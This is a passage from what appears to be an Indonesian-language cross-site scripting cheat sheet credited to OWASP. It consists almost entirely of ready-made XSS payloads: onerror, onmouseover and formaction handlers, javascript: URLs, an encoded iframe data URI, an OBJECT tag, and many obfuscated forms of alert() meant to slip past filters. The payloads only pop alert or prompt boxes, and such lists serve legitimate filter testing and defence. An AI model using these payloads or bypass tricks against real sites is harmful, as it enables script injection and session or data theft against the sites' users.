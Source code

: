 - `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`

 Saat Mouse Di Atas:

- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `


### Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- `(alert())`

Payload harus mencakup tanda petik terbalik di awal dan di akhir:

```js
&#96;`${alert``}`&#96;
```

###### Copyright © - This cheat sheet was created from the OWASP CheatSheetSeries reference - Source :` https://cheatsheetseries.owasp.org/ `